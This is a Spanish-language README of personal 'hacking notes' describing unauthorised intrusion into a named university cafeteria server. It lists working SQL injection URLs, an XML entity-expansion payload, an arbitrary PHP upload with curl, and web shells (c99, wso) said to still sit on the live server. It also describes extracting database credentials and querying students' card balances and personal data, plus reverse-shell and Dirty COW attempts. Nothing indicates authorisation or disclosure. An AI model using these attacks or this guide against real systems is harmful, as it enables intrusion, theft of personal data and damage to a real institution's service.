


# Hacking notes...

Estas notas son principalmente una ayuda de memoria para mí mismo, aunque 
espero que eventualmente les sirvan a alguien para tomar cartas sobre
el asunto.


## Backup of server

En el zip `huemul.zip` hay una copia del código del servidor que se encontraba
publicado por accidente en github (https://github.com/org-huemul/huemul).

La historía es que ese repositorio se creó para pasar el control del servidor
de una secretaría a otra (no recuerdo los nombres, perdon!), y luego se
olvidaron de borrarlo (o se olvidaron de que pudieron crear el repo como privado).

En Junio de 2018 aún se puede conseguir una copia en la caché de 
[google](https://webcache.googleusercontent.com/search?q=cache:Mr99Ebwj35EJ:https://github.com/org-huemul+&cd=1&hl=es-419&ct=clnk&gl=ar&client=firefox-b-ab)


Y por las dudas, le tomé un screenshot:



## Looking in

Aún aunque no tuviera el código fuente, ver el código fuente es facil,
el desarrollador parece que usó Gedit para codear, o alguno semejante, que deja
backups de los archivos con extensión `.php~`.

Autoconsulta: http://comedor.unc.edu.ar/autoconsulta.php~

Backend: http://comedor.unc.edu.ar/gv-ds.php~

> Nota: El código está horriblemente identado, mezclando tabs con espacios.


## WARNING!

Seguro que te bajaste el zip y te pusiste a ver que otros archivos había.
NO JUEGUES con `open_file.php`.

**http://comedor.unc.edu.ar/open_file.php devuelve cualquier archivo que le
pidas del servidor PERO TAMBIEN LO ELIMINA!**

> Un 11 may. 2017 12:37 rompí el servidor por buscar un `.ini`


## The Old Backend

Mirando un poco, la mayoría de las cosas pasan por el archivo `gv-ds.php`, como
la autoconsulta o el medidor de raciones (siempre anduvo mal, ¿sigue andando mal?).

Esto es un poco mas viejo, y en esa epoca me gustaba usar telnet:

> Por cierto, la IP del comedor es 200.16.16.36

Para consultar los datos de una tarjeta hay que hacer un POST.
Sí, con un POST :facepalm:.

A destacar:
* `accion=4` determina la función, consulta.
* `responseHandler=setDatos` nos va a devuelver código javascript. Si, WTF!
Pero `setDatos()` es una función definida en el HTML de la web de autoconsulta.
* `codigo=BARCODE` el código de la tarjeta en cuestión.

```sh
$ telnet 200.16.16.36 80

POST /gv-ds.php HTTP/1.1
Host: comedor.unc.edu.ar
Accept: text/javascript, application/javascript, */*; q=0.01
Accept-Language: es-AR,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://comedor.unc.edu.ar/autoconsulta.php
Content-Length: 56
Connection: keep-alive

accion=4&responseHandler=setDatos&codigo=BARCODE


HTTP/1.1 200 OK
Date: Fri, 05 Aug 2016 00:16:18 GMT
Server: Apache/2.2.21 (Linux/SUSE)
X-Powered-By: PHP/5.3.8
Content-Length: 1664
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html

setDatos({status:'ok',
table: {cols:
[
{id: 'c0', label: 'id_cliente', type:'number'},
{id: 'c1', label: 'beca', type:'number'},
{id: 'c2', label: 'renovado', type:'date'},
{id: 'c3', label: 'fecha_desde', type:'date'},
{id: 'c4', label: 'fecha_hasta', type:'date'},
{id: 'c5', label: 'saldo', type:'number'},
{id: 'c6', label: 'raciones', type:'number'},
{id: 'c7', label: 'sede', type:'string'},
{id: 'c8', label: 'tipo_cliente', type:'string'},
{id: 'c9', label: 'tipo_beca', type:'string'},
{id: 'c10', label: 'tipo_monto', type:'string'},
{id: 'c11', label: 'beca_tc', type:'number'},
{id: 'c12', label: 'tipo_duracion', type:'string'},
{id: 'c13', label: 'tipo_renovacion', type:'string'},
{id: 'c14', label: 'max_personas_agregar', type:'number'},
{id: 'c15', label: 'renovacion', type:'string'},
{id: 'c16', label: 'nombre', type:'string'},
{id: 'c17', label: 'apellido', type:'string'},
{id: 'c18', label: 'cuip', type:'number'},
{id: 'c19', label: 'otro', type:'string'},
{id: 'c20', label: 'mail', type:'string'},
{id: 'c21', label: 'evento', type:'string'},
{id: 'c22', label: 'precio_x_racion', type:'number'},
{id: 'c23', label: 'prox_renov', type:'date'},
{id: 'c24', label: 'foto', type:'string'},
{id: 'c25', label: 'codigo', type:'string'}
],
rows: [{c:
[
{v: BANNED-ID-CLIENT},
{v: null},
{v: new Date(2016, 2, 10)},
{v: null},
{v: new Date(2017, 2, 10)},
{v: BANNED-BALANCE},
{v: null},
{v: '0475'},
{v: 'Estudiante de Grado'},
{v: 'D'},
{v: '$'},
{v: 2},
{v: 'S'},
{v: 'F'},
{v: 2},
{v: null},
{v: 'BANNED-NAME'},
{v: 'BANNED-LASTNAME'},
{v: BANNED-CUIL},
{v: null},
{v: 'BANNED-EMAIL@gmail.com'},
{v: null},
{v: 6},
{v: null},
{v: 'BANNED-USER-PROFILE-PICTURE'},
{v: 'BANNED-BARCODE'}
]
}]
}
});
```

Ahora el medidor:
* GET http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0475&tqx=reqId:0
* `accion=1` para la funcion medidor.
* `sede=0475` para la cede central de ciudad universitaria (yo también me 
pregunto porque ese número).
* `tqx` en realidad creo que no hace falta, pero lo dejo por las dudas, porque
así lo tenía escrito.

```
google.visualization.Query.setResponse(
{reqId: 0, status:'ok', table: 
{cols:
[
{id: 'c0', label: 'fecha', type:'string'},
{id: 'c1', label: 'raciones', type:'number'}
],
rows:
[
{c: [{v: '12:04:00'},{v: 12}]},
{c: [{v: '12:05:00'},{v: 6}]},
{c: [{v: '12:06:00'},{v: 6}]},
{c: [{v: '12:07:00'},{v: 14}]},
{c: [{v: '12:08:00'},{v: 10}]},
{c: [{v: '12:09:00'},{v: 13}]},
{c: [{v: '12:10:00'},{v: 11}]},
{c: [{v: '12:11:00'},{v: 10}]},
{c: [{v: '12:12:00'},{v: 7}]},
{c: [{v: '12:13:00'},{v: 8}]},
{c: [{v: '12:14:00'},{v: 9}]},
{c: [{v: '12:15:00'},{v: 5}]},
{c: [{v: '12:16:00'},{v: 13}]},
{c: [{v: '12:17:00'},{v: 8}]},
{c: [{v: '12:18:00'},{v: 4}]},
{c: [{v: '12:19:00'},{v: 12}]},
{c: [{v: '12:20:00'},{v: 10}]},
{c: [{v: '12:21:00'},{v: 12}]},
{c: [{v: '12:22:00'},{v: 11}]}
]
}});
```

> Obviamente las respuestas originales están en una sóla linea, yo les agregué
> saltos de linea para que sean legibles.


## The new amazing backend

Claramente no pierdas tiempo con eso de arriba, aunque a Junio de 2018 se
sigue usando en producción en las páginas web, metí un `gv-ds_test.php` que nos
arregla la vida.

El codigo fuente de ese archivo está en este repo, la idea era ser lo menos
intrusivo y mantener compatibilidad con el resto. Fué al pedo, pero bueno.

Features:
* No más POSTs, todo se hace desde GETs (como debería ser).
* `json=true` en realidad solo hay que definirlo y ya.
* `codigo=BARCODE[,BARCODE]` ahora se puede mandar una lista de tarjetas separadas por coma.
* Todas las respuestas en [JSON](https://es.wikipedia.org/wiki/JSON).

Consulta: http://comedor.unc.edu.ar/gv-ds_test.php?json=true&accion=4&codigo=BARCODE

Medidor: http://comedor.unc.edu.ar/gv-ds_test.php?json=true&accion=1&sede=0475


## Start the cool things

Bueno basta de boludeces, que empiece lo divertido:

### SQL injection

1. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0475' or '1' = '1`
2. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0' or sede = '0475`
3. `http://comedor.unc.edu.ar/gv-ds.php?accion=1&sede=0475' and cast(fecha as date) = date '2017-5-9' group by 1 order by 1 -- hola`

> Nota: Usar (3) para obtener el historico de raciones de cualquier fecha.

> Otra nota: Por alguna razón dejé esta vulnerabilidad en `gv-ds_test.php`, 
supongo que fué porque es útil para obtener datos viejos en JSON cuando 
el medidor está en cero.


### XML Entity Expansion

A esto no lo he vuelto a revisar xD, **necesita una mejor explicación**.

```sh
$ telnet 200.16.16.36 80
POST /formulario/php/saveForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Connection: keep-alive

xml=<root><row id_elems="nombre">yolo</row><row>"Hola y saludos a todos"</row></root>


$ telnet 200.16.16.36 80
POST /formulario/php/saveForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Connection: keep-alive

xml=<root><row>"Hola y saludos a todos"


$ telnet 200.16.16.36 80
POST /formulario/php/checkForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 9
Connection: keep-alive

cuip=yolo


$ telnet 200.16.16.36 80
POST /formulario/php/checkForm.php HTTP/1.1
Host: comedor.unc.edu.ar
Content-Type: application/x-www-form-urlencoded

xml=<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY lol "LOL ">
<!ENTITY lol1 "%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;%26lol;">
<!ENTITY lol2 "%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1; %26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1; %26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;%26lol1;">
]>
<root>
<row id_elems="nombre">Yolo</row>
<row> %26lol2;%26lol2;%26lol2;%26lol2;%26lol2; </row>
</root>
```


### Upload file

Esto es del [formulario](http://comedor.unc.edu.ar/formulario/), 
el chequeo del tipo de foto se hace por un lado,
y por otro lado `upload.php` guarda directamente lo que le mandes.

```bash
f=file.php # Cualquier archivo
curl -i -F foto=@$f http://comedor.unc.edu.ar/formulario/php/upload.php --http1.0

# Esto sube el archivo $f en:
curl "http://comedor.unc.edu.ar/formulario/no-cargados/img/$f"
```


### Code Injection

Usando lo de arriba, podemos subir código `.php`, y por motivos solamente
nostálgicos, en este repo dejé [tutturu.jpg.php](./tutturu.jpg.php)
que es el primer código _php_ que escribí para subirlo al servidor.

A Junio de 2018, sigue en el servidor ❤:

http://comedor.unc.edu.ar/formulario/no-cargados/img/tutturu.jpg.php?param=Onii-Chan


### Shells

Esta es la parte mas loca. Existen bastantes shells escritas en PHP para poder
jugar y explorar todo el sistema operativo del servidor.

Con los que más tiempo estuve jugando son [c99.php](./c99.php) y 
[wso.php](./wso.php). Recomiendo seguir con `wso` que anda mejor.

A Junio de 2018, siguen en el servidor:
* http://comedor.unc.edu.ar/formulario/no-cargados/c99.php
* http://comedor.unc.edu.ar/formulario/no-cargados/wso.php
* http://comedor.unc.edu.ar/formulario/no-cargados/Shu1337.php

Hay algunos más en `formulario/no-cargados/img/*.php`

Creditos:
* Shu1337: https://github.com/linuxsec/webshell
* ¿Los demás?


### Looking the Data Base

Con `wso` pude conectarme a la base de datos PostgreSQL que maneja el comedor.

Toda la info estaba en `/opt/comedor/instalacion/bases.ini` (En producción
estaban usando `[desarrollo comedor comedor]`). La forma en la que llegué a
este archivo es viendo las primeras lineas de código de `gv-ds.php`:

```php
$path = realpath(dirname(__FILE__).'/../propiedades.ini');
$props = parse_ini_file($path, true);
$props = $props[$props['ambiente']];
//$db = parse_ini_file('../../../instalacion/bases.ini', true);
$db = parse_ini_file($props['bases_ini_path'], true);
```

> Lo curioso es que el camino a través de `$path` nos lleva al mismo lugar que
> la linea comentada.

Y luego más abajo en la linea 67:

```php
$connStr = "host={$this->dbdata['profile']}
            port={$this->dbdata['puerto']}
            dbname={$this->dbdata['base']}
            user={$this->dbdata['usuario']}
            password={$this->dbdata['clave']}";
```

Tenemos todos los datos necesarios para hacer la conexión. Ya conectados,
podemos hacer cualquier tipo de _query_,
**PERO NO HACER _UPDATES_ NI _INSERTS_ PORFAVOR~!**

Dentro de [huemul.zip](./huemul.zip), en 
`huemul-97637800bbba6e92325180eed8142b00b8631c1d/BD/der/diagrams/` hay unos
lindos cuadros con el diseño de la base de datos.


### Queries

Dinero le queda al comedor por año de usuarios que no renuevan su tarjeta:
```sql
select date_part('year', renovado), sum(saldo) from v_cliente_all group by date_part('year', renovado) order by date_part('year', renovado)
```

Date | Sum
 --- | ---:
2011 | 18743
2012 | 56748.5
2013 | 55762.2
2014 | 59547.8
2015 | 75057.8
2016 | 102991
2017 | 189772
2018 | 242788

---

Dinero total en la base de datos:
```sql
SELECT sum(saldo) FROM v_cliente_all
```
Sum: _801410_(ARS)

---

Tarjeta con más saldo: _04754BF0B7F1576_

Un momento, WTF!



---

Código de tarjeta y saldo de alguien llamado Juan:
```sql
select * from v_cliente_all c left join v_persona p on c.id_persona=p.id_persona where nombre like '%Juan%' limit 10
```


## Fails

Finalmente, me quedaron cosas que nunca logré:

* Acceder a una terminal interactiva
* Conseguir acceso root


### Shell reverse

El intento está en [tutturu.sh](./tutturu.sh), nunca supe porque no andaba,
mi intuición dice que el _Firewall_ debe ser el problema, y habría que hacer
algo más.


### Dirty Cow

El servidor tiene un linux super viejo, y debería ser vulnerable a 
[Dirty Cow](https://dirtycow.ninja/). 
He tratado de correr algunas PoC (Proof Of Concept) sin éxito. La falta de
una shell interactiva lo dificulta bastante, además no hay `gcc` en el servidor.


### Keys

Dentro de [huemul.zip](./huemul.zip), hay unas claves publicas y privadas, 
parecen ser de _ssh_, nunca supe que hacer con eso. 

El servidor tiene un servidor SSH corriendo, pero nunca pude conectarme (`Time Out`).
